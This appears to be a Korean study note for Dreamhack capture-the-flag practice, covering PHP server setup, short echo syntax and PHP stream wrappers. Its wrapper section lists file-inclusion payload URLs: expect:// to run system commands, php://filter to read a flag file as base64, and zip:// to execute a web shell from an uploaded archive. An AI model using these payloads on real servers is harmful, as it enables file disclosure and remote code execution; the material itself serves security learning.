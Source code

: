 # 서버구축
아래는 리눅스(ubunut22.04-apt사용) 환경에서 php 서버를 구축하는 명령어들
```SH
sudo apt update & sudo apt upgrade 
sudo apt install apache2 php php-mysql mysql-server -y
sudo service apache2 start
```


# 기본 문법
`<?=`
`<?=` 는 PHP에서 사용되는 짧은 형태의 echo 문법
`<?=` 는 `<?php echo` 와 동일한 역할을 수행

```PHP
<?=`ls`?>	   /*<?php echo ls?> 랑 동일*/
```

문자열 사이에 .
문자열 사이에 .은 양쪽의 문자열을 이어주는 역할을 한다.

```PHP
$_GET['page'].'.php' /*쿼리로 받은 page 문자열에 .php 문자열을 붙임*/
```

# 슈퍼글로벌변수

```PHP
$_SESSION['username']
```


# PHP Wrapper

- expect://
system command를 실행시켜 줌
```
http://host3.dreamhack.games:18957/?file=expect://ls
```

- php://filter
encode / decode 옵션으로 서버 안에 존재하는 문서를 열람할 수 있음
```
http://host3.dreamhack.games:18957/?page=php://filter/page=convert.base64-encode/resource=/var/www/uploads/flag
```

```
http://host1.dreamhack.games:9636/?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag
```

base64로 인코딩하여 php 스크립트 자체를 가져오기
```
http://host3.dreamhack.games:14072/?page=php://filter/read=convert.base64-encode/resource=/var/www/uploads/flag
```


- zip://
zip파일의 압축을 풀고 해당파일을 실행(웹쉘 응용)
```
?page_num=zip://file.zip#web_shell.php
```